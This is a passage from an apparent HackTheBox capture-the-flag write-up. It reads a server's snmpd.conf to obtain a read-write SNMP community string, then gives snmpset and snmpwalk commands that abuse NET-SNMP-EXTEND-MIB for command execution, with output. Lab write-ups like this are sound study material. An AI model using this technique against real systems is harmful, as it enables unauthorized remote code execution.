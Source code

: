Let us try to read the `snmpd.conf` file.

```bash
Option> 2
file-path> /etc/snmp/snmpd.conf                                                                                        
[+] Got contents of /etc/snmp/snmpd.conf:
agentAddress  udp:161
                                                           
view   systemonly  included   .1.3.6.1.2.1.1
view   systemonly  included   .1.3.6.1.2.1.25.1           
                                                           

 rocommunity public  default    -V systemonly
 rwcommunity SuP3RPrivCom90
                                                           
###############################################################################
#                                                                                                                      
#  SYSTEM INFORMATION       
#                           
                                                                                                                       
#  Note that setting these values here, results in the corresponding MIB objects being 'read-only'
#  See snmpd.conf(5) for more details                                                                                  
sysLocation    Sitting on the Dock of the Bay
sysContact     Me <user@intense.htb>
                                                 # Application + End-to-End layers
sysServices    72              
[...]
```

Looking at the config, we can find that the RW (read/write) SNMP-community string is `SuP3RPrivCom90`.

After a bit of research, I have found a [blob-post](https://medium.com/rangeforce/snmp-arbitrary-command-execution-19a6088c888e) that explains how to get arbitrary command execution using RW-access on SNMP. There is also a [Metasploit module](https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/linux/snmp/net_snmpd_rw_access.rb) available.

### Exploiting SNMP-RW manually

In order to get code-execution, we simply have to run the following command:

```bash
root@darkness:~# snmpset -m +NET-SNMP-EXTEND-MIB -v 2c -c SuP3RPrivCom90 10.10.10.195 \
'nsExtendStatus."command"' = createAndGo \
'nsExtendCommand."command"' = /usr/bin/id \
'nsExtendArgs."command"' = ''
```

```bash
root@darkness:~# snmpwalk -v 2c -c SuP3RPrivCom90 10.10.10.195 nsExtendObjects
[...]
uid=111(debian-snmp) gid=113(Debian-snmp) groups=113(Debian-snmp)
[...]
```
